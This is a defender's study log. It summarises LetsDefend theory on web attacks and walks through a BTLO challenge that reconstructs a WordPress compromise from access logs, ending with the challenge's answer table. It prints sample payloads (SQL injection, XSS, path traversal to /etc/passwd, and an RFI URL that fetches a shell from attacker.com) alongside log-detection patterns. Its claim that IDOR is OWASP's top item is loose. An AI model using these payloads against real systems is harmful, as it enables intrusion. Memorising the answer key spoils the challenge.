# Day 16 — Detecting Web Attacks & Log Analysis: Compromised WordPress

## 📅 Date
April 15, 2026

## 🎯 Platforms
- LetsDefend.io — Detecting Web Attacks 101 (Free Theory)
- Blue Team Labs Online (BTLO) — Log Analysis: Compromised WordPress (Free)

## 🏆 Achievements

| Achievement | Platform | Points | Difficulty |
|-------------|----------|--------|-----------|
| Log Analysis - Compromised WordPress | BTLO | 20pts | Medium |
| Web Attacks 101 | LetsDefend | — | Theory |

## 🛠️ Tools Used
- grep, tail, cat (Linux terminal)
- Exploit-DB research
- Web server access log analysis

---

## 📚 Theory — Detecting Web Attacks 101 (LetsDefend)



75% of all cyber attacks target web applications. This course covers the most common web attack types and how SOC analysts detect them in logs.

---

### 🔴 SQL Injection (SQLi)



SQL Injection occurs when unsanitized user input is directly included in SQL queries, allowing attackers to manipulate the database.

**Example attack payload:**
```sql
' OR '1'='1
' UNION SELECT username, password FROM users--
```

**Detection in logs:**
```
POST /login.php → contains: ' OR 1=1, UNION SELECT, --
```

**Tools attackers use:** SQLmap, Havij

---

### 🟡 Cross Site Scripting (XSS)



XSS is an injection-based vulnerability that allows attackers to inject malicious JavaScript into web pages viewed by other users.

**Types:**
- **Stored XSS** — malicious script stored in database
- **Reflected XSS** — script reflected off web server
- **DOM XSS** — script executed in browser DOM

**Example attack payload:**
```javascript
<script>alert('XSS')</script>

```

**Detection in logs:**
```
GET /search?q=<script>alert(1)</script>
```

---

### 🟠 IDOR (Insecure Direct Object Reference)



IDOR is the #1 vulnerability in OWASP 2021. It occurs when an application uses user-controllable input to access objects without proper authorization checks.

**Example:**
```
https://example.com/profile?id=123  → victim's profile
https://example.com/profile?id=124  → attacker accesses another user's data
```

**Detection in logs:**
```
Sequential parameter manipulation: id=1, id=2, id=3...
```

---

### 🔵 RFI & LFI Attacks



**Local File Inclusion (LFI):** Attacker reads files on the same server
```
https://example.com/page?file=../../../../etc/passwd
```

**Remote File Inclusion (RFI):** Attacker loads a file from an external server
```
https://example.com/page?file=http://attacker.com/shell.php
```

**Detection in logs:**
```
../../../etc/passwd in URL parameters
http:// or https:// in file parameters
```

---

## 🔴 BTLO Challenge — Log Analysis: Compromised WordPress



### Scenario
A WordPress website was compromised. The task was to analyze the web server access logs to reconstruct the attack chain and identify what the attacker did.

---

## 🔍 Investigation Process

### Step 1 — Initial Log Analysis



```bash
tail access.log
cat access.log | grep suspicious_patterns
```

The logs showed a WordPress site being heavily probed with various requests to `/wp-login.php`, `/wp-admin/`, and plugin directories.

**Key observations:**
- Multiple 404 errors — attacker enumerating the site
- Requests from multiple IPs
- WordPress-specific paths being targeted

---

### Step 2 — Identifying Attacker Tools

**WPScan Detection:**



```bash
grep "WPScan" access.log
```

**Result:**
```
119.241.22.121 - [14/Jan/2021 06:01:41] "GET / HTTP/1.1" 403 3160 
"WPScan v3.8.10 (https://wpscan.org/)"
```

WPScan is a WordPress vulnerability scanner used by attackers to enumerate plugins, themes and vulnerabilities.

**SQLmap Detection:**



```bash
grep "sqlmap" access.log
```

**Result:**
```
168.22.54.119 - [14/Jan/2021 06:12:53] "POST /wp-login.php HTTP/1.1" 302 243 
"sqlmap/1.4.11#stable (http://sqlmap.org)"
```

SQLmap was used to attempt SQL injection against the WordPress login page.

---

### Step 3 — Finding the Admin Login URL

The attacker gained access to the admin panel via:
```
wp-login.php?itsec-hb-token=adminlogin
```

This token indicates the iThemes Security plugin's hidden login feature was being abused.

---

### Step 4 — Identifying the CVE

**Contact Form 7 Vulnerability:**

The attacker exploited **CVE-2020-35489** in the Contact Form 7 plugin — an unrestricted file upload vulnerability that allowed uploading malicious PHP files.

---

### Step 5 — Plugin Exploit Research



Research on Exploit-DB revealed:
- **Plugin:** Simple File List 4.2.2
- **Vulnerability:** Arbitrary File Upload
- **EDB-ID:** 48979
- **Platform:** PHP/Web Apps
- **Date:** 2020-11-02

The attacker uploaded a PHP web shell through the vulnerable plugin!

---

### Step 6 — Web Shell Activity



```bash
grep "fr34k.php" access.log
```

Multiple POST and GET requests to the web shell:
```
103.69.55.212 - POST /wp-content/uploads/simple-file-list/fr34k.php 200
103.69.55.212 - GET /wp-content/uploads/simple-file-list/fr34k.php 200
```

The web shell `fr34k.php` was uploaded to:
```
/wp-content/uploads/simple-file-list/fr34k.php
```

**Final access — HTTP 404:**
```
GET /wp-content/uploads/simple-file-list/fr34k.php → 404
```
The web shell was eventually deleted or cleaned up.

---

### Step 7 — Access Log Final Analysis



The final log entries showed:
```
GET /YouShouldSeeThis.txt HTTP/1.1 200
```

The attacker left a message file on the server — confirming full compromise!

---

## 📊 Complete Attack Chain

```
Phase 1 — Reconnaissance
    119.241.22.121 runs WPScan → enumerates plugins/themes

Phase 2 — Initial Access Attempt  
    168.22.54.119 runs SQLmap → tries SQL injection on wp-login.php

Phase 3 — Exploitation
    Exploits CVE-2020-35489 in Contact Form 7
    Exploits Simple File List 4.2.2 (EDB-48979)
    Uploads fr34k.php web shell

Phase 4 — Post Exploitation
    103.69.55.212 executes commands via fr34k.php web shell
    Attacker leaves YouShouldSeeThis.txt on server

Phase 5 — Cleanup
    Web shell fr34k.php returns 404 — deleted/cleaned
```

---

## 📊 BTLO Challenge Answers



| Question | Answer |
|----------|--------|
| Admin login URL | wp-login.php?itsec-hb-token=adminlogin |
| Two attacker tools | WPScan, SQLmap |
| Contact Form 7 CVE | CVE-2020-35489 |
| Plugin exploited | Simple File List 4.2.2 |
| Web shell filename | fr34k.php |
| Final HTTP response | 404 |

---

## 🏷️ MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|-----|-------------|
| Active Scanning | T1595 | WPScan enumeration |
| Exploit Public-Facing Application | T1190 | CVE-2020-35489 exploitation |
| Web Shell | T1505.003 | fr34k.php uploaded and executed |
| Ingress Tool Transfer | T1105 | Web shell uploaded via file upload |
| Defacement | T1491 | YouShouldSeeThis.txt left on server |

---

## 💡 Key Takeaways

1. **WPScan user-agent is a dead giveaway** — always grep logs for known scanner signatures
2. **SQLmap leaves its signature** — `sqlmap/version` in User-Agent header
3. **File upload vulnerabilities are critical** — they allow direct code execution
4. **Web shells are persistent backdoors** — attackers use them for continued access
5. **75% of attacks target web apps** — web log analysis is a core SOC skill
6. **CVE research is essential** — knowing the vulnerability helps understand the attack
7. **HTTP 404 on web shell = cleanup** — but damage may already be done

---

## 🔗 Resources
- [Blue Team Labs Online](https://blueteamlabs.online)
- [LetsDefend Web Attacks 101](https://app.letsdefend.io)
- [OWASP Top 10](https://owasp.org/www-project-top-ten)
- [Exploit-DB](https://exploit-db.com)
- [CVE-2020-35489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35489)
- [MITRE ATT&CK](https://attack.mitre.org)
